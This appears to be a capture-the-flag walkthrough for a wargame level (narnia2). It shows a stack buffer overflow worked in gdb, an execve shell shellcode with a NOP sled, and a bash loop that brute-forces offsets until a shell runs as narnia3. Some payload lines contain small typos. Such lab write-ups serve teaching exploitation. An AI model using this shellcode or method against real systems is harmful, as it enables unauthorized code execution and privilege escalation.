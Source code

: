 ### Another possible approach, without the use of an envinroment variable, place shellcode on the stack and try to get its location

We have to write over 128 chars to overflow the buffer.
Let's find the offset of the return pointer.
The return pointer seems to return into "CCCC", so the offset is just 4.

```bash


# breaks before and after strcpy

gdb-peda$ break *0x0804847d
Breakpoint 1 at 0x804847d
gdb-peda$ break *0x08048483
Breakpoint 2 at 0x8048483

run $(python -c 'print "A"*128 + "B"*4 + "C"*4 + "D"*4 + "E"*4 + "F"*4')

# Using a shellcode of 23 bytes, with 60 bytes of NOPs, 83 bytes.
# We have to fill a buffer of 128, so we need one more character to make it alligned. Then reapeat the return address 128-84 = 44 times to fill the stack.
# We do 50 to make sure to overflow the return pointer

run $(python -c 'print "\90"*60 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + A + "ADDRESS"*50 ')

# We pick a random address from the stack from gdb like: 0xffffd64c, add 120 to it and get 0xFFFFD6C4 and then subtract offsets until we reach an address in the NOP sled.
# Let's make a BASH script

# We can add 30 every time because of the 60 byte sled, with no fear of missing it.
# 30 is no an alligned address, but we just want to get in the NOP sled.

# I wrote a c script to exploit the program with different offsets.

narnia2@narnia:/tmp/cezarp$ for i in $(seq 0 30 400)
> do
> echo Trying offset $i
> ./nr2 $i
> done
Trying offset 0
Segmentation fault
Trying offset 30
Illegal instruction
Trying offset 60
Segmentation fault
Trying offset 90
Segmentation fault
Trying offset 120
Illegal instruction
Trying offset 150
Segmentation fault
Trying offset 180
$ whoami
narnia3

```
